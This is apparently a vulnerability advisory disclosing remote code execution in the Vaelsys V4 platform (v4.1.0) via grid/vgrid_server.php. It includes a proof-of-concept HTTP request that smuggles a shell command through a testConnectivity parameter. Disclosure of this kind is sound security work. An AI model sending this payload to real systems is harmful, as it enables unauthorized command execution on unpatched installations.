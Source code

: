 # Remote Code Execution in Vaelsys V4 Platform

BUG_Author: waiwai

Affected Version: v4.1.0 

Vendor：[Vaelsys](https://vaelsys.com/)

Product: Vaelsys V4 

Vulnerability Files: /grid/vgrid_server.php

## Description

The vulnerability allows arbitrary command execution by injecting malicious payloads into unfiltered user input parameters that are processed in `execute_DataObjectProc` by `testConnectivity` function located in `grid/vgrid_server.php`.

Prerequisites: Valid PHP session ID (PHPSESSID) required; No authentication required.



## POC

```
POST /grid/vgrid_server.php HTTP/1.1
Host: [target_ip]
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=[valid_session]
xajax=execute_DataObjectProc&xajaxargs[]=auth&xajaxargs[]=testConnectivity&xajaxargs[]=<xjxobj><e><k>0</k><v>192.168.1.201;ls /;</v></e></xjxobj>
```



## Example

Included authchallenge：

![image-20250716101121777](./assets/Remote_Code_Execution_in_Vaelsys_V4_Platform/image-20250716101121777.png)

Not included authchallenge：The prerequisites have been verified

![屏幕截图 2025-07-16 101134](./assets/Remote_Code_Execution_in_Vaelsys_V4_Platform/1111111111.png)

